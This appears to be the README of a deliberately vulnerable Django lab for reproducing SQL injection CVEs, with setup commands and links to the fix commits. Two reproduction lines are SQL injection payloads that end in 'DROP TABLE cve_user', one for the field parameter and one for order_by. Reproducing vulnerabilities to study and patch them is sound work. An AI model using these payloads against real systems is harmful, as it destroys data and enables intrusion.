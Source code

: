 ## How to setup environment

### setup db
```
docker run -d -p 50000:5432 -e POSTGRES_PASSWORD=qwe123QWE -e POSTGRES_DB=db postgres:14.1
```

### execute migration
```
python manage.py makemigrations cve

python manage.py migrate
```

### setup service
```
python manage.py runserver
```


Issue 1: 

Reproduction: CVE-2022-28346: field=count" from cve_user group by cve_user.id;DROP TABLE cve_user;--     

Fix: https://github.com/django/django/commit/93cae5cb2f9a4ef1514cf1a41f714fef08005200 

 

 

Issue 2: 

Reproduction: CVE-2022-28347 same as above 

 

Issue 3: 

CVE-2022-34265  https://github.com/aeyesec/CVE-2022-34265 

Fix: https://github.com/django/django/commit/54eb8a374d5d98594b264e8ec22337819b37443c  

 

Issue 4: 

CVE-2021-35042  

Reproduction: order_by=cve_user.id);drop table cve_user; -- 

Fix: https://github.com/django/django/commit/a34a5f724c5d5adb2109374ba3989ebb7b11f81f#diff-fd2300283d1546e36141373b0621f142ed871e3e8856e07efe5a22ecc38ad620  